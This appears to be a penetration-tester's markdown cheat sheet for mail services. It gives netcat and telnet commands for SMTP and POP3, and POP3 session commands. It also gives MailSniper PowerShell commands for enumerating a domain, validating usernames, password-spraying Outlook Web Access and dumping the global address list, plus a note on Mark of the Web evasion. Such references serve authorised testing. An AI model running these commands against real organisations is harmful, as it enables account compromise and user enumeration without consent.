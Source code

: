 # SMTP and POP3
	
## Connect to SMTP server
```bash
nc -nv [ip] 25
```

## Connect to POP3 server
```bash
nc -nv [ip] 110
```

```bash
telnet [ip] 110
```

## Basic commands 
### Authentication
```bash
USER [username]
PASS [password]
		
STAT - Show number of messages
LIST - As STAT but by message
RETR - Read message
DELE - Delete message
RSET - Reset session
TOP  - Read by lines 
QUIT - quit
```

## SPOOF MAIL
### spoofcheck
```bash
./spoofcheck.py [domain]
```
* venvP2

## MailSniper and Spraying Toolkit
### Load module 
```powershell
Import-module MailSniper.ps1
```

### Enumerate NetBIOS name of the target domain
```powershell
Invoke-DomainHarvestOWA -ExchHostname mail.[domain]
```

### Validate usernames
```powershell
Invoke-UsernameHarverstOWA -ExchHostname mail.[domain] -Domain [domain] -UserList [names] -OutFile [valid_names]
```

### Password spray attack
```powershell
Invoke-PasswordSprayOWA -ExchHostname mail.[domain] -UserList [valid_names] -Password [password]
```

### Get global address list from a user
```powershell
Get-GlobalAddressList -ExchHostname mail.[domain] -Username [domain]\[user] -Password [password] -OutFile [gal.txt]
```

## GC - Zone Identifier
Zone identifier allows to trust and download a file via email-client and not be tainted with the "Mark of the Web" MOTW.
```powershell
gc [file] -Stream Zone.Identifier
```

0 => Local computer
1 => Local intranet
2 => Trusted sites
3 => Internet
4 => Restricted Sites


